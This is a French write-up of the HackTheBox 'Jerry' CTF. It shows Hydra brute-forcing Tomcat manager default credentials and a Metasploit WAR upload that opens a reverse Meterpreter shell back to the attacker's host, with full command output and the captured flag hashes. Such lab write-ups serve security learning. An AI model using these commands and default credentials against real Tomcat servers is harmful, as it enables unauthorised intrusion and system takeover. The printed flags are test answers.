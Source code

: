 ```yaml
---
title: "Solution du CTF Jerry de HackTheBox"
tags: [CTF, HackTheBox]
---
```


Introduction
------------

Ce CTF a été de loin la pire expérience sur HackTheBox : un challenge ultra simple pourri par d'autres utilisateurs qui réinitialisaient les mots de passe non-stop, sans compter les reset fréquents de la machine lancés par les autres utilisateurs excédés.  

Blitzkrieg
----------

On a un Apache Tomcat/7.0.88 tournant sur le port 8080. Le système semble être un Microsoft Windows Server 2012.  

On trouve facilement [une liste de mots de passe par défaut](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) pour l'accès au Tomcat.  

On peut bruteforcer l'accès à la section manager via le module Metasploit *scanner/http/tomcat\_mgr\_login* ou encore via Hydra en espérant que le mot de passe n'a pas été préalablement changé :  

```
$ hydra -P  /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt -L /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt http-get://10.10.10.95:8080/manager/html
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-07-01 13:28:10
[DATA] max 16 tasks per 1 server, overall 16 tasks, 42 login tries (l:6/p:7), ~3 tries per task
[DATA] attacking http-get://10.10.10.95:8080//manager/html
[8080][http-get] host: 10.10.10.95   login: admin   password: admin
[8080][http-get] host: 10.10.10.95   login: tomcat   password: s3cret
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-07-01 13:28:13
```

Dès lors on peut exploiter le Tomcat par l'upload d'un fichier WAR spécifique, ce que fait très bien Metasploit pour nous :  

```
msf exploit(multi/http/tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 10.10.14.35:443
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying 8XnD7mo2yl64uHauGnpw62S1lJuMdv...
[*] Executing 8XnD7mo2yl64uHauGnpw62S1lJuMdv...
[*] Undeploying 8XnD7mo2yl64uHauGnpw62S1lJuMdv ...
[*] Sending stage (53837 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened (10.10.14.35:443 -> 10.10.10.95:49192) at 2018-07-07 09:34:26 +0200

meterpreter > getuid
Server username: JERRY$
meterpreter > pwd
C:\apache-tomcat-7.0.88
meterpreter > sysinfo
Computer    : JERRY
OS          : Windows Server 2012 R2 6.3 (amd64)
Meterpreter : java/windows
meterpreter > shell
Process 1 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>

C:\Users\Administrator\Desktop\flags>whoami
whoami
nt authority\system
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```


*Published November 17 2018 at 18:43*
